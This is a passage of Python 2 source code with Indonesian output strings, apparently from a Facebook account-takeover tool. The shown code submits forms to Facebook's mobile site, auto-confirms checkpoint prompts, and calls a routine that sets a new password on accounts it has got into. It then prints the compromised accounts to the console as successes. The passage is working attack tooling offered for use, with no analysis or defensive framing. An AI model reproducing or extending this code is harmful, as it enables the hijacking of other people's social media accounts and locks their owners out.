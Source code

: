 					payloads.update({"submit[Continue]": "Lanjutkan", "nh": nh})
					respon_ = ses_dev.post("https://mbasic.facebook.com"+url_post, data=payloads)
					
					if san_dev == pw_new:
						pw_new_ = pw_new+"000"
					else:
						pw_new_ = pw_new

					if "password_new" in respon_.text:
						data = data.replace("Chek", "Yes1").replace("\033[90;1m", "\033[92;1m").replace("\033[93;1m", "\033[96;1m")
						ganti_pw.append("dev")
						_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_, san_dev)
					if "checkpointSecondaryButton" in respon_.text:
						# print "zzzzzzzzzzzzzz"
						data = data.replace("Chek", "Yes2").replace("\033[90;1m", "\033[92;1m").replace("\033[93;1m", "\033[96;1m")
						ganti_pw.append("dev")
						bug.append("dev")
						if len(pw_tap) != 0:
							sop_dev = BeautifulSoup(respon_.content, "html.parser")
							form = sop_dev.find("form")
							url_post_ = form["action"]
							submit = sop_dev.find("input", attrs={"name": "submit[Yes]"})["value"]
							nh = sop_dev.find("input", attrs={"name": "nh"})["value"]
							payload = {}
							for dev in form:
								input = dev
								payload[input.get("name")] = input.get("value")
							payload.update({"nh": nh, "submit[Yes]": submit})
							respon_2 = ses_dev.post("https://mbasic.facebook.com"+url_post_, data=payload)
							if "password_new" in respon_2.text:
								_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_2, san_dev)
							else:
								pass
						else:
							# print "ttttttt"
							if len(sesi) != 0:
								print h+"\r{"+k+"Yes"+h+"}"+h+" Akun Tap Yes...."+p+" >_<  Log di Mbasic \n"+data+batas+"\n"
							else:
								suc = h+"{"+k+"Yes"+h+"}"+a
								dat_dev = data.split()
								dataku = data.replace(dat_dev[0], suc)
								print h+"\r{"+k+"Yes"+h+"}"+h+" Akun Tap Yes...."+p+" >_<  Log di Mbasic \n"+dataku+batas+"\n"
								

					sop = BeautifulSoup(respon_.content, "html.parser")
					select_dev = sop.find("select", attrs={"name": "verification_method"})
					c = 1
					option_ = []
					sesi_ttl = []
					for dev in select_dev.find_all("option"):
						